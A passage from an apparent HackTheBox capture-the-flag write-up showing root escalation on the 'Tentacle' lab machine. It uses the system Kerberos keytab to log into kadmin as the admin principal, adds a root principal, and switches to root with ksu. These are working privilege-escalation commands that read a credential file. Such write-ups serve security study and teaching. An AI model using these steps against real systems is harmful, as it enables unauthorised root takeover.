 ```bash
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/changepw@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/changepw@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/changepw@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/changepw@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/admin@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/admin@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/admin@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/admin@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/admin@REALCORP.HTB"
```

we can use keytab admin principal to authenticate into Kerberos V5 administration system console. 
```bash
kadmin -k -t /etc/krb5.keytab -p "kadmin/admin@REALCORP.HTB"
# -t keytab file
# -k use that keytab file to authenticate
# -p specify principal
```

A Kerberos principal is a unique identity to which Kerberos can assign tickets. if we create principal for root user than we can use "[ksu](https://web.mit.edu/kerberos/krb5-latest/doc/user/user_commands/ksu.html)" to change user to root.

with `add_principal` command we can add keytab principal, But it This command requires the "add" privilege.

__Check privileges with `get_privs` command__
```bash
kadmin:  get_privs
current privileges: INQUIRE ADD MODIFY DELETE
```

__adding principal__
```bash
add_principal root@REALCORP.HTB
```

__than change user to root__
```bash
ksu root
```

![](screenshots/tentacle-rooted.png)
